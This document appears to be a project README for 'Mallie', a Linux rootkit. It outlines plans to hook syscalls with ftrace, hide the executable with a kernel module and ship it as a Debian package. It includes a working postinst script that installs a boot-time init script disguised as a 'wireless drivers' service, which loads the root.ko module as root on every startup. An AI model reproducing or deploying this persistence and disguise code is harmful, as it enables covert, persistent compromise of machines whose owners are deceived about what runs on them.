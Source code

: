 # Mallie
Sample linux rootkit.

# TODO
- curl a url
- ~~get syscall table~~ use ftrace instead (no need find syscall table)
- hook a syscall with ftrace instead of modifying kernel memory
- package everything into a debian package
- use of mallie executable to curl and mallie.ko lkm to hide mallie executable

# Issues
- stdlib is not available for kernel modules, may need another executable

# Resources
- Create deb package: https://www.internalpointers.com/post/build-binary-deb-package-practical-guide
- Make install script in the deb package using DEBIAN/preinstall same as the DEBIAN/control file

# Auto-Start on Boot Script
1) chmod 755 to the postinst script.

2) Once that is done create a symbolic link in the run level directory you would like to use, for example if you wanted to run a program in the graphical runlevel 2, the default runlevel for Ubuntu, you would place it in the /etc/rc2.d directory. You just cannot place it the directory, you must signify when it will run by indicating the startup with an “S” and the execution order is important. Place it after everything else that is in the directory by giving it a higher number. If the last script to be run is rc.local and it is named S99rc.local then you need to add your script as S99myscript. Symbolic link: `ln -s /etc/init.d/myscript /etc/rc3.d/S99myscript`

```bash

#!/bin/bash
# This `DEBIAN/postinst` script is run post-installation

echo '#!/bin/bash' > /etc/init.d/wireless-81xx
echo '
### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0 ' >> /etc/init.d/wireless-81xx

chmod 755 /etc/init.d/wireless-81xx
cp /usr/local/bin/mallie /usr/bin/
cp /usr/local/bin/root.ko /usr/bin/
ln -s /etc/init.d/wireless-81xx /etc/rc3.d/S01wireless-81xx
sh /etc/init.d/wireless-81xx start

```

/etc/init.d/wireless-81xx
```bash
#! /bin/bash

### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0

```

# Credits
https://askubuntu.com/questions/290099/how-to-run-a-script-during-boot-as-root <br>
https://gist.github.com/drmalex07/298ab26c06ecf401f66c <br>
https://github.com/xcellerator/linux_kernel_hacking